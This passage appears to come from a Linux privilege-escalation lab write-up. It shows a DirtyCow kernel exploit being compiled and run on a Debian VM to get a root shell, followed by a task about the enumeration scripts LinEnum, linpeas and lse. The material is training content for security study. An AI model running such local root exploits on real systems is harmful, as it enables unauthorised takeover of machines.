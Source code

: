 ```bash
  [14] video4linux
      CVE-2010-3081
      Source: http://www.exploit-db.com/exploits/15024


user@debian:~$ gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
user@debian:~$ ./c0w 
                                
   (___)                                   
   (o o)_____/                             
    @@ `     \                            
     \ ____, //usr/bin/passwd                          
     //    //                              
    ^^    ^^                               
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap cc600000

madvise 0

ptrace 0

user@debian:~$ /usr/bin/passwd 
root@debian:/home/user# id
uid=0(root) gid=1000(user) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
root@debian:/home/user# exit
user@debian:~$ 
```

# [Task 21] Privilege Escalation Scripts

Several tools have been written which help find potential privilege escalations on Linux. Three of these tools have been included on the Debian VM in the following directory: /home/user/tools/privesc-scripts

## #1 - Experiment with all three tools, running them with different options. Do all of them identify the techniques used in this room?

* [linenum.txt](files/linenum.txt)
* [linpeas.txt](files/linpeas.txt)
* [lse.txt](files/lse.txt)